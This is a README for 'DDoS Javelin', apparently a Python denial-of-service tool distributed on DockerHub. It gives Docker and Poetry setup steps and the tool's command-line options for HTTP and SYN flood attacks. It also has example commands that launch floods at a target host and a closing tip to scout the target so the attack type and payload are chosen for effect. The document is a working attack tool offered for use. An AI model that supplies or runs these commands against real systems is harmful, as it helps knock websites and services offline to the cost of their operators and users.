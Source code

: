 # DDoS Javelin

Python based DDoS tool.
Released on [DockerHub](https://hub.docker.com/r/parfeniukink/ddos-javelin)


### 3-rd party uses
- [requuests](https://pypi.org/project/requests/)
- [scapy](https://pypi.org/project/scapy/)


</br>


## Setup guides

### With Docker

<b>Pull the image from DockerHub:</b>
```bash
For arm architecture:
docker pull parfeniukink/ddos-javelin:arm64

For x64 architecture:
docker pull parfeniukink/ddos-javelin:amd64
```

<b>Run the script:</b>
```bash
docker run --name ddos-javelin --rm -d --cpus 1 -m 9999999m --pull always parfeniukink/ddos-javelin:arm64 python src/run.py {cli_properties}
```

<b>Options description:</b>
- `--name` - call your container. Set if you need to stop the container in one command:
    - `docker stop $(docker ps -q --filter="name=ddos-javelin")`
- `--rm` - remove container on stop
- `--cpus` - The amount of CPUs used by Docker.
    - Recommended max parameter: `--cpus $(getconf _NPROCESSORS_ONLN)`
- `--m` - The RAM limitation in Megabytes. Recommended max parameter: `-m 999999m`
- `--pull always` - pull image from DockerHub if not exist locallyjlk



</br>


### Without Docker

<b>Requirements:</b>
- [Python3.9](https://www.python.org/downloads/release/python-3912/)

<b>Install deps</b>
```bash
# Install poetry dependency manager 👉 https://python-poetry.org
pip3 install -U poetry

# Install dependencies
poetry install

# Activate the local environment
poetry shell
```

<b>Run script</b>
```bash
python src/run.py {cli_properties}
```

### CLI payloads description
```bash
$ ddos_javelin git:(12-add-readme-file) ✗ python src/run.py --help

usage: run.py [-h] --attack ATTACK_TYPE -a ADDRESS -p PORT [-s SIZE] [--hs HTTP_SCHEMA] [--hm HTTP_METHOD] [--pl PAYLOAD] [--debug]

DDoS Javelin arguments parser

optional arguments:
  -h, --help            show this help message and exit
  --attack ATTACK_TYPE, --attack_type ATTACK_TYPE
                        Attack type. Allowed values HTTP | SYN_FLOOD
  -a ADDRESS, --address ADDRESS
                        Examples: google.com | 192.168.1.2
  -p PORT, --port PORT  Examples: 443 | 8000 | 80
  -s SIZE, --size SIZE  The size of requested package. Allowed values: LOW | MEDIUM | HIGH
  --hs HTTP_SCHEMA, --http_schema HTTP_SCHEMA
                        HTTP schema. Allowed values: http | https. Default HTTPS
  --hm HTTP_METHOD, --http_method HTTP_METHOD
                        HTTP method. Allowed values: GET | POST | HEAD. Default GET
  --pl PAYLOAD, --payload PAYLOAD
                        Custom payload. If not selected use randomly-generated. Allowed type is python dictionary. Example: '{"username": "admin", "pass": "admin"}'
  --debug               Set this flag if you develop something.It will reduce the amount of used CPUs to 1 and also it will not create any threads
```


## Examples
```
src/run.py --attack http --address site.com --port 443 --payload '["search", "category"]'
src/run.py --attack syn_flood --address site.com
```


## Notes:
DDoS attack requires prior reconnaissance of the target and is most effective in establishing the appropriate <b><i>type of attack (`--attack`)</i></b> and <b><i>payload (`--payload`)</b></i>
